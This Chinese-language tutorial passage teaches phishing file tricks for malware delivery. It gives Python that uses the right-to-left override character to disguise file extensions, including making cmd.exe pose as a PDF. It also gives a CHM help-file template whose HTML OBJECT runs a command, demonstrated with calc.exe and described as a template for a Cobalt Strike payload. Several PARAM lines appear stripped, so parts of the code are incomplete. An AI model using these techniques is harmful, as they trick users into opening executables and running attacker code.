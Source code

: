 文件后缀 RTLO  

------------

**他会让字符串倒着编码**

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zleycDibFeiboWibhEQlF4qbkadn5hn6KWww6MNqqZTp5nIZNJicENIpfkfUgqylPj7tPUvOvibl0KWHiavJZM3uAtWw/640?wx_fmt=png)

• 用 Python 一键生成用，把 txt 改为 png 后缀

```
import os  
os.rename('test.txt', 'test-\\u202egnp.txt')
import os
os.rename('cmd.exe', u'no\\u202eFDP.exe')
```

CHM 文档
------

创建一个文件夹（名字随意），在文件夹里面再创建两个文件夹（名字随意）和一个 index.html 文件，在两个文件夹内部创建各创建一个 index.html 文件。然后先将下列代码复制到根文件夹中的 index.html 中

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zleycDibFeiboWibhEQlF4qbkadn5hn6KWwbdaHjEibIVbFIn0icltrJjaicoHhvIniaqGyL9A4CibnMBqCBnhNHVeia2nA/640?wx_fmt=png)

• 在 index.html 文件中编辑

```
<!DOCTYPE html><html><head><title>Mousejack replay</title><head></head><body>
command exec
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM >
 <PARAM >
 <PARAM  value=',calc.exe'>
 <PARAM >
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```

• 使用 cs 生成修改模版中的 calc.exe

```
<!DOCTYPE html><html><head><title>Mousejack replay</title><head></head><body>
command exec
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM >
 <PARAM >
 <PARAM >
 <PARAM >
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```
